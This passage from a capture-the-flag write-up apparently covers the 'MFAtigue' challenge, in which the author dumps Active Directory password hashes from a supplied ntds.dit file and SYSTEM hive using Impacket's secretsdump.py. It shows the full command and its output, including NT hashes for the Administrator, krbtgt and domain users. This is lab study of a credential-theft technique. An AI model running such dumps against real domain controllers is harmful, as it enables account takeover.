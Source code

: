 Here is the flag:

`flag{448c05ab3e3a7d68e3509eb85e87206f}`

## MFAtigue

### Description

> We got our hands on an NTDS file, and we might be able to break into the Azure Admin account! Can you track it down and try to log in? They might have MFA set up though...

### Solution

You are given a zip file which contains two files: `ndtis.dit` and `SYSTEM`.

The first one is the file where user hashes are kept on a Windows Domain Controller, the second is a registry hive.

You often need both to access the hashes because they are encrypted using a key present in the hive.

When it comes to domain controller stuff on Linux the reference are [Impacket](https://github.com/fortra/impacket) tools.

One of the scripts called `secretsdump.py` is exactly what we need. I just had to figure out that `LOCAL` must be given as a target:

```console
$ secretsdump.py -ntds ../chall/ntds.dit -system ../chall/SYSTEM LOCAL
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Target system bootKey: 0xf08b286576ad88218db21b35b32c8781
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: fb06bfcd3d32cb05e283f56de267f5be
[*] Reading and decrypting hashes from ../chall/ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:53ffcddea58170b42267fa689f0fa119:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WIN-UUTKPJ98ERD$:1000:aad3b435b51404eeaad3b435b51404ee:ef38fd14274db386b7b5bbddcb37f953:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:948e12fcf27797f773c901c7e1b069d8:::
huntressctf.local\PAMELA_MCCARTHY:1103:aad3b435b51404eeaad3b435b51404ee:98574cb0badfc5d11094dd239af97da2:::
huntressctf.local\MATHEW_BERG:1104:aad3b435b51404eeaad3b435b51404ee:c7e3f4aa78cb46c0b47e61809cef8ca8:::
huntressctf.local\ETHAN_WELCH:1105:aad3b435b51404eeaad3b435b51404ee:151cb8e8e6b942bb0495e88c02365c19:::
huntressctf.local\RILEY_LANGLEY:1106:aad3b435b51404eeaad3b435b51404ee:565911c8b1e206319277f50207377fb1:::
huntressctf.local\PASQUALE_CHRISTIAN:1107:aad3b435b51404eeaad3b435b51404ee:7a2c60c628bda5d963a5934ec733f85f:::
huntressctf.local\HELENA_HESS:1108:aad3b435b51404eeaad3b435b51404ee:feb58b0c807bc1ef3adc390dabc1f6ac:::
huntressctf.local\SALLIE_BALLARD:1109:aad3b435b51404eeaad3b435b51404ee:e7c417bd62f442b1ee53bf70c8d656ef:::
huntressctf.local\LOU_NAVARRO:1110:aad3b435b51404eeaad3b435b51404ee:189b758028dc7ea177e26b990f09aad0:::
huntressctf.local\EDGARDO_DOWNS:1111:aad3b435b51404eeaad3b435b51404ee:38170f23f241863a09d07b2f438fe35a:::
huntressctf.local\GENE_SAWYER:1112:aad3b435b51404eeaad3b435b51404ee:3f8aa43a8714b6cba6438ab8e2890576:::
huntressctf.local\JILLIAN_DOTSON:1113:aad3b435b51404eeaad3b435b51404ee:08e75cc7ee80ff06f77c3e54cadab42a:::
huntressctf.local\EILEEN_NGUYEN:1114:aad3b435b51404eeaad3b435b51404ee:a03d6125a5d27301c10657d20bcb11f0:::
huntressctf.local\8385424457SA:1115:aad3b435b51404eeaad3b435b51404ee:a41edb7e4b7e68bb594d42de289ef4e2:::
```